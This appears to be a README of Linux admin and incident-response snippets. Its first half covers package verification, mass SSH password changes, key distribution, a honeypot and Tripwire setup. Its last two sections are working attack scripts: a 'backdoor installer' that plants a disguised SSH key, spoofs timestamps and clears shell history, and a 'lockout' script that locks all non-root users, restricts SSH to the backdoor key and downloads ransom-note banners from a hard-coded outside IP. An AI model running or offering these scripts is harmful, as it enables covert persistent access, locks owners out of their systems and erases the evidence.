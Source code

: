 # Scripts

### Quick Commands

* RHEL verify all packages: `rpm -Va`
  * Output only if different, checks perms and hashes
* Debian verify all packages: `debsums`
  * Need to install
* Kill all PTYs that are not yours: `` kill -9 `pgrep '^(bash|sh)' | grep -v $$` ``
* Get established connections: `netstat -tpn 2>/dev/null || netstat -an | grep ESTABLISHED`
* Get listening ports: `netstat -tln 2>/dev/null || netstat -an | grep LISTEN`
* List kernel modules: `lsmod || modinfo`

### Control
* Run command on one host: `ssh <hostname> -l <username> <username> <command>`
  * Username only needed if not `root`
* Run command on all hosts: `pssh -h <hosts_file> -l <default_username> <command>`
  * Username only needed if not `root`
  * If `pssh` command doesn't exist, try `parallel-ssh`
  * `pssh` must be installed before use
* Run command on one host (ansible): `ansible <hostname> -m raw -a "<command>"`
* Run command on all hosts (ansible): `ansible all -m raw -a "<command>"`
* Run ansible playbook: `ansible-playbook name_of_playbook.yml`

### SSH Initial Spray

```
$ sudo apt install sshpass pssh
$ OP=<old_password>
$ NP=<new_password>
$ for i in {1..255}; do sshpass -p "$OP" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=10 <user>@10.X.X.$i "echo -e '$OP\n$NP\n$NP' | passwd" && echo 10.X.X.$i >> success & done
$ sshpass -p "$NP" parallel-ssh -h success -l <user> -t 5 -A "<sudo> /sbin/iptables -I INPUT 1 -p tcp --dport 22 -j ACCEPT && <sudo> /sbin/iptables -I INPUT 2 -j DROP"
```
Notes:
* Change `<user>` to be `root` and any admin user names provided
* Change `10.X.X` to be actual subnet
* Change `1..255` to actually represent range of IP addresses in our environment
* Change `$OP\n$NP\n$NP` to `$NP\n$NP` if <user> == root
* Need manual password change on *BSD, Solaris
* Need manual firewall on OpenSUSE (firewalld), *BSD (PfCTL), and Solaris (ipfilter)
 
###### Second round
```
$ for s in $(cat success); echo "$s:"; do read pass; sshpass -p "$NP" ssh <user>@$s "echo -e '$NP\n$pass\n$pass' | passwd & done
```

### Copy Keys

Prep: `ssh-keygen`

```
#!/usr/bin/env bash

while [ true ]
do
    echo "IP address:"
    read IP
    echo "Hostname:"
    read HOSTNAME
    ssh-copy-id root@$IP
    echo "$IP $HOSTNAME" | sudo tee -a /etc/hosts
    echo $HOSTNAME | sudo tee -a /etc/servers
    mkdir -p /servers/$HOSTNAME
done
```

### Mount SSHFS

```
#!/bin/bash

sudo mkdir -p /servers
sudo chown root:toads /servers
sudo chmod 0775 /servers

for s in $(cat /etc/servers); do
  sudo umount /servers/$s #>/dev/null 2>&1 || true
  rmdir /servers/$s #>/dev/null 2>&1 || true
  mkdir /servers/$s
  sshfs -o allow_other,ServerAliveInterval=20,reconnect root@$s:/ /servers/$s
done
```

### Convert ARP entries to static

```
$ arp -an | awk -F' ' '{print $2 $4}' | cut -d'(' -f2 | while IFS=')' read ip mac
> do arp -s $ip $mac
> done
```

### Honeypot (run command on connection)

```
#!/usr/bin/env python
import os, socket, select

ports = [12345, 12346]
socks = []

for p in ports:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind(("0.0.0.0", p))
    s.listen(5)
    socks.append(s)
    
while True:
    r, w, err = select.select(socks, [], [])
    for s in r:
        c, addr = s.accept()
        c.shutdown(socket.SHUT_RDWR)
        c.close()
        os.system('wall "suspicious connection from IP: " ' + addr[0])
```

### Change SSH Setting
```
sed -i -e "/[ ]*$1/ s/^#*/#/" sshd_config
echo "$1 $2" >> sshd_config
```

Usage:
```
$ ./change_ssh PermitRootLogin no
```

### Procedurally Generate Tripwire Configuration

```
for S in `ls /servers`; do
  echo "( rulename = "$S", severity = 100)">>~/twpol.txt
  echo "{">>~/twpol.txt
  for D in `ls /servers/$S | grep -v dev | grep -v srv | grep -v proc`; do
    echo "/servers/$S/$D -> \$(ReadOnly) (recurse = true);">>~/twpol.txt
  done
  echo "}">>~/twpol.txt
done
```

### Fuchsia Backdoor Installer

```
echo "PUBKEY HERE" >> /etc/ssh/ssh_host_rsa2048_key.pub
touch -r /etc/ssh/ssh_host_rsa_key.pub /etc/ssh/ssh_host_rsa2048_key.pub
sed -i 's/\#AuthorizedKeysFile.*/AuthorizedKeysFile .ssh\/authorized_keys \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config
kill -HUP $(pgrep -f `which sshd`)
history -c
echo "" > ~/.bash_history
```


### Fuchsia Lockout

```
who | awk '!/root/{ cmd="/sbin/pkill -KILL -u " $1; system(cmd)}'

echo "Kicked em out!"

cp /etc/passwd /etc/passwd.backup.shad0wfuchsia
cp /etc/ssh/sshd_config /etc/ssh/sshd_config.backup.shad0wfuchsia

echo "User table backed up"

echo "Locking users..."

for USERNAME in `cut -d: -f1 /etc/passwd | grep -v root`
do
  sudo passwd -l $USERNAME
done

echo "All users locked"

# Set authorized keyfile to ONLY backdoor key
sed -i 's/\AuthorizedKeysFile.*/AuthorizedKeysFile \/etc\/ssh\/ssh_host_rsa2048_key.pub/' /etc/ssh/sshd_config
sed -i 's/PubkeyAuthentication.*/PubkeyAuthentication yes/' /etc/ssh/sshd_config

# Disable password authentication
sed -i 's/#PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PasswordAuthentication.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sed -i 's/PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config

# Remove any existing allowusers directive, replace with root only
sed -i 's/AllowUsers.*/\#/' /etc/ssh/sshd_config
echo -e ' \n' >>/etc/ssh/sshd_config
echo 'AllowUsers root' >> /etc/ssh/sshd_config

sed -i 's/Banner.*/\#/' /etc/ssh/sshd_config
sed -i 's/#Banner.*/\#/' /etc/ssh/sshd_config
echo 'Banner /etc/fuchsia_banner' >> /etc/ssh/sshd_config

echo "SSH Configuration finished"

rm /etc/motd
wget -O /etc/fuchsia_banner http://67.205.157.179/fus-nocolor.txt
wget -O /etc/nologin http://67.205.157.179/fus.txt

echo "Ransom notes installed"

cat >~/unfuck.sh <<EOL
#!/bin/bash

wget -qO - http://67.205.157.179/paid.txt

echo "Reverting changes..."
mv /etc/passwd.backup.shad0wfuchsia /etc/passwd
mv /etc/ssh/sshd_config.backup.shad0wfuchsia /etc/ssh/sshd_config
rm /etc/nologin
echo "" >/etc/fuchsia_banner

for USERNAME in \`cut -d: -f1 /etc/passwd | grep -v root\`
do
  sudo passwd -u $USERNAME
done

echo -e "System configuration restored.\nBye!"
rm -- "\$0"
EOL

kill -HUP $(pgrep -f `which sshd`)

echo "!!!CHANGE THE ROOT PASSWORD"

history -c
echo "" > ~/.bash_history
```
